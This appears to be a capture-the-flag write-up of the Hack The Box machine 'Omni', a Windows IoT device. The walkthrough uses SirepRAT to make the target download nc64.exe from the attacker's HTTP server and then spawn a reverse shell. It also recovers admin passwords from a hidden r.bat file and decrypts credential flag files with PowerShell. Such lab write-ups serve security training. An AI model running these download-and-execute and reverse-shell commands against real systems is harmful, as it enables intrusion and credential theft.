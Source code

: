 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the **upnp** service. **ARCserve** also might give you a hint as it looks to be an IoT related storage solution.  

If you try to browse to the **8080** port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called **SirepRAT**. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.  

However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like **NetCat** perhaps?  

It’s important to mention that the proper version of **nc.exe** is needed for this to work. I used **nc64.exe** acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  

After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the **SirepRAT.py** script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run **cmd.exe** to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the **Temp** directory.

You’ll see a log in your Python terminal to confirm it was downloaded.

Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the **SirepRAT.py** script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  

From here you can look around all you want. However, an important file to note is located in **C:\Program Files\WindowsPowerShell\Modules\PackageManagement**. This file is hidden so use **dir /ah** to see it. You’ll see an **r.bat** file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)  

Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)  

From here, you’ll see that under **Processes** menu, you have the ability to execute commands. You can use that same **nc64.exe** we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)  

After some more Googling, we can decrypt these using Powershell.

After opening a powershell prompt, we can use the following command on both **root.txt** and **user.txt** under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
